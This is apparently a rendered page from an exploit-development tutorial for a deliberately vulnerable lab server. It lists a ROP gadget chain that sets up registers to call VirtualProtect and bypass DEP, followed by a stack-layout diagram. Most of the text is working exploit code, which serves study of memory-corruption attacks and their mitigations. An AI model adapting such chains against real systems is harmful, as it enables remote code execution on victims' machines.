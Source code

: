 > [!NOTE]
> We omit repetitive rows representing ineffective mitigation strategies as their cases are already covered.

```
      #[---INFO:gadgets_to_set_esi:---]
      0x76e494ee,  # POP EBX # RETN [combase.dll] ** REBASED ** ASLR 
      0x76796164,  # ptr to &VirtualProtect() [IAT ucrtbase.dll] ** REBASED ** ASLR
      0x76333a91,  # MOV ESI,DWORD PTR DS:[EBX] # ADD CL,CL # RETN [OLEAUT32.dll] ** REBASED ** ASLR 
      #[---INFO:gadgets_to_set_ebp:---]
      0x7671d3e6,  # POP EBP # RETN [ucrtbase.dll] ** REBASED ** ASLR 
      0x766e77c5,  # & push esp # ret  [ucrtbase.dll] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_ebx:---]
      0x7654252c,  # POP EAX # RETN [KERNELBASE.dll] ** REBASED ** ASLR 
      0xfffffdff,  # Value to negate, will become 0x00000201
      0x76e3c8ba,  # NEG EAX # RETN [combase.dll] ** REBASED ** ASLR 
      0x77043349,  # XCHG EAX,EBX # RETN [ntdll.dll] ** REBASED ** ASLR 
      #[---INFO:gadgets_to_set_edx:---]
      0x7704320b,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR 
      0xffffffc0,  # Value to negate, will become 0x00000040
      0x76da1f0a,  # NEG EAX # RETN [combase.dll] ** REBASED ** ASLR 
      0x76d012db,  # XCHG EAX,EDX # RETN [combase.dll] ** REBASED ** ASLR 
      #[---INFO:gadgets_to_set_ecx:---]
      0x752f4414,  # POP ECX # RETN [RPCRT4.dll] ** REBASED ** ASLR 
      0x62504802,  # &Writable location [Essfun.dll]
      #[---INFO:gadgets_to_set_edi:---]
      0x76d6eda4,  # POP EDI # RETN [combase.dll] ** REBASED ** ASLR 
      0x76f077c7,  # RETN (ROP NOP) [WS2_32.dll] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_eax:---]
      0x76f3e2d0,  # POP EAX # RETN [WS2_32.dll] ** REBASED ** ASLR 
      0x90909090,  # nop
      #[---INFO:pushad:---]
      0x77043201,  # PUSHAD # RETN [ntdll.dll] ** REBASED ** ASLR 
```
```
          ---------------
          |              | PUSHAD # RETN
          | 0x90909090   | 
EAX       |              | POP EAX # RETN
          | 0x76f077c7   | RETN (ROP NOP)
EDI       |              | POP EDI # RETN
ECX       | 0x62504802   | 
          |              | POP ECX # RETN
EDX       |              | XCHG EAX,EDX # RETN
          |              | NEG EAX # RETN
          | 0xffffffc0   | 
          |              | POP EAX # RETN
EBX       |              | XCHG EAX,EBX # RETN
          |              | NEG EAX # RETN
          | 0xfffffdff   |
          |              | POP EAX # RETN
          | 0x766e77c5   | & push esp # ret
EBP       |              | POP EBP # RETN
ESI       |              | MOV ESI,DWORD PTR DS:[EBX] # ADD CL,CL # RETN
          | 0x76796164   | ptr to &VirtualProtect()    
          |              | # POP EBX # RETN
          | ret addr     | -> retn
          ---------------  <- ESP
```
